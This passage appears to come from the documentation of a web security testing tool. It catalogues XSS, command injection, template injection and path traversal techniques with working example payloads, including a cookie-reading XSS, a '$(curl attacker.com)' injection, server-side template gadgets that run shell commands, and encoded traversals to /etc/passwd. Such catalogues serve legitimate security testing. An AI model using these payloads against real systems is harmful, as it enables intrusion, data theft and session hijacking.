 ### **2. Cross-Site Scripting (XSS)**
- **Reflected XSS**: URL parameter injection
- **Stored XSS**: Persistent payload injection  
- **DOM XSS**: JavaScript-based injection
- **Filter Bypass**: Event handler variation, encoding tricks

**Example Payloads:**
```javascript
<script>alert('xss')</script>
<img src=x onerror=alert(document.cookie)>
<svg onload=eval(atob('YWxlcnQoMSk='))>
javascript:alert(String.fromCharCode(88,83,83))
<iframe src='data:text/html,<script>alert(1)</script>'>
```

### **3. Command Injection**
- **Linux Commands**: System reconnaissance, file access
- **Windows Commands**: PowerShell, CMD execution
- **Blind Injection**: Time-based, out-of-band detection
- **Bypass Techniques**: Variable substitution, encoding

**Example Payloads:**
```bash
; id
| whoami
& dir
`uname -a`
$(curl attacker.com)
; /bin/cat /etc/passwd
```

### **4. Template Injection**
- **Jinja2**: Python Flask applications
- **Twig**: Symfony PHP applications
- **Freemarker**: Java Spring applications
- **Smarty**: PHP applications

**Example Payloads:**
```python
{{7*7}}
${T(java.lang.Runtime).getRuntime().exec('id')}
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
{php}system('id'){/php}
```

### **5. Path Traversal**
- **Unix Systems**: `/etc/passwd`, `/etc/shadow`
- **Windows Systems**: `boot.ini`, `win.ini`
- **Application Files**: Configuration files, source code
- **Bypass Techniques**: Encoding, null bytes, double encoding

**Example Payloads:**
```
../../../etc/passwd
..%2f..%2f..%2fetc%2fpasswd
....//....//....//etc/passwd
..%255c..%255c..%255cboot.ini
```

